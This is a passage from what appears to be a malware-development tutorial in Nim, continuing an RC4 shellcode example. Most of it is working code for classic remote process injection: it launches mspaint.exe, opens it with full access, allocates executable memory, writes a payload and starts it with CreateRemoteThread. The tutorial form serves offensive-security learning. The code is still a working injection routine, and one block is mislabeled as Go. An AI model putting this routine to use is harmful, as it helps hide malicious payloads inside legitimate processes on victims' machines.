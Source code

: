 For checking correctness of RC4 encryption/decryption you also can use simple C code.     

### practical example 2

Let's update our code from example 1: add simple process injection logic.    

For process injection, let's create process first:    

```nim
import osproc
import winim

let process = startProcess("mspaint.exe")
echo "started  process: ", process.processID
```

Then, add process injection logic via `VirtualAllocEx`, `WriteProcessMemory` and `CreateRemoteThread`:    

```go
let ph = winim.OpenProcess(
    PROCESS_ALL_ACCESS,
    false,
    cast[DWORD](process.processID)
)

when isMainModule:
    let mem = VirtualAllocEx(
        ph,
        NULL,
        cast[SIZE_T](plaintext.len),
        MEM_COMMIT,
        PAGE_EXECUTE_READ_WRITE
    )
    var btw: SIZE_T
    let wp = WriteProcessMemory(
        ph,
        mem,
        unsafeAddr payload[0],
        cast[SIZE_T](plaintext.len),
        addr btw
    )
    echo "writeprocessmemory: ", bool(wp)
    let th = CreateRemoteThread(
        ph,
        NULL,
        0,
        cast[LPTHREAD_START_ROUTINE](mem),
        NULL,
        0,
        NULL
    )
    echo "successfully inject to process: ", process.processID
    echo "thread Handle: ", th
```
